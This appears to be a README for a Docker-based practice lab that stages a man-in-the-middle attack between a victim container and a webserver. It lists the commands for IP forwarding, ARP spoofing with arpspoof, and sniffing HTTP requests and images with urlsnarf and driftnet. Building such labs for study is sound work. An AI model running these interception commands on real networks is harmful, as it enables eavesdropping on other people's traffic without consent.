 # Setup for an Man-in-the-middle (MITM) attack 
###Prerequisite
- Docker is installed
- you can use docker-compose commands

### Start
Just use following command:
`docker-compose up --build`

###Infrastructure 
There are 3 Machines: 
- Webserver 
- MITM with Kali Linux
- Victim Node (just an simple Alpine Linux)

###Steps:

1. Setup IP forwarding:
`echo 1 > /proc/sys/net/ipv4/ip_forward`
2. start arpspoof(Important: let it open): 
`arpspoof -i eth0 -t [Victim-IP] -r [Webserver-IP]`
3. Now you can use:
 - `urlsnarf -i eth0` -> get HTTP-Requests
 - `driftnet -i eth0` -> get Images